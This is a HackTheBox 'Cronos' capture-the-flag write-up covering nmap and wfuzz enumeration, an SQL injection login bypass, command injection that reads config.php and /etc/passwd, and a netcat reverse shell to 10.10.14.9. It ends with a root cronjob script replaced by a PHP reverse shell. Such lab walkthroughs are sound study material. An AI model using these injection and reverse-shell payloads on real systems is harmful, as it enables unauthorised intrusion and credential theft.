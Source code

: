 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.13 -T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Cronos/assets/1.png">

# Enumeration
Running gobuster didn't result in anything.
```
gobuster dir -u http://10.10.10.13/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt
```

We then search for subdomains with wfuzz:
```
wfuzz -u http://cronos.htb -w /usr/share/wordlists/wfuzz/general/big.txt  -H 'Host: FUZZ.cronos.htb' --hw 975
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Cronos/assets/2.png">


After adding admin to the /etc/hosts we try if we can use SQL injection to bypass the login form.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Cronos/assets/3.png">



This command will list the config.php file. We got a username and password for a database.
```
8.8.8.8;cat config.php
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Cronos/assets/4.png">

We can also view the content of /etc/passwd and spot three accounts that have bash available.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Cronos/assets/5.png">

# Initial Foothold
We know we can use local file inclusion and command injection. Let's try if we can create a reverse shell by adding the following as command:

```
8.8.8.8;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 4444 >/tmp/f
```

# Privilege Escalation
We got a reverse shell as ```www-data``` and see that there's a cronjob running. After checking permissions we see that it is owned by ```www-data``` so we are able to change the file to our liking. We could alter it to get the content of /root/root.txt.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Cronos/assets/6.png">

Another approach is to replace artisan with a reverse php shell. As this script will run as root we will get a shell as root.

Let's grab the shell from https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

We setup a webserver and download the file with ```wget```. We then move the file to replace artisan:
```
mv shell.py /var/www/laravel/artisan
```
We wait while we have our netcat listener ready and get a root shell on the host.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Cronos/assets/7.png">









